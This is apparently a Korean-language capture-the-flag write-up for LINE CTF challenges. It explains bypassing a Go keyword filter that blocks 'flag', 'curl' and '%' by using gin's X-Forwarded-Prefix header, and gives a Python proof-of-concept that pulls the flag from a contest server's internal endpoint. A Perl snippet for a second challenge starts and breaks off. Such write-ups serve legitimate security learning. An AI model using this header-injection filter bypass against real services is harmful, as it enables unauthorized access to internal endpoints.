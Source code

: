 
# Adult Simple GoCurl (193pt)
***
`Baby`문제와 다른 점은 아래와 같이 조건문의 차이점 뿐입니다. 이제는 `url` 파라미터에 직접적으로 `flag`, `curl`, `%`를 쓸 수 없습니다.  
```go
...
    if strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%") {
        c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
        return
    }
...
```
{:file="main.go"}
<br/>

## 취약점
***
우리는 임의의 헤더를 설정할 수 있으므로, [X-Forwarded-Prefix](https://github.com/gin-gonic/gin/issues/2916) 헤더를 이용하여 요청 시 기본 경로를 지정할 수 있습니다. `/flag` 엔드포인트를 `prefix`로 놓으면 `//`로 요청을 보내면 리다이렉트가 될 것이고 이 헤더에 의해서 실제 요쳥은 `/flag`와 같아지겠죠. 이런 헤더가 있는지 처음 알았습니다.  
<br/>

## PoC Code
***
```python
from requests import get
from re import search

info = lambda x : print(f"[+] {x}")

URL ="http://34.84.87.77:11001"
FLAG =""

res = get(f"{URL}/curl/?url=http://127.0.0.1:8080//&header_key=X-Forwarded-Prefix&header_value=/flag/")
m = search(r"LINECTF{.*?}",res.text)

if m :
    FLAG = m.group()
    info(f"Flag is {FLAG}")
else :
    print("[-] Failed to find the flag")
```
{: file="adult.py"}
<br/>



# Old Pal (119pt)(Solved)
***
`Perl`로 작성된 문제로 조건문을 모두 통과하여 `$pw`가 `20230325`이면 풀립니다.  
```perl
#!/usr/bin/perl
use strict;
use warnings;

use CGI;
use URI::Escape;


```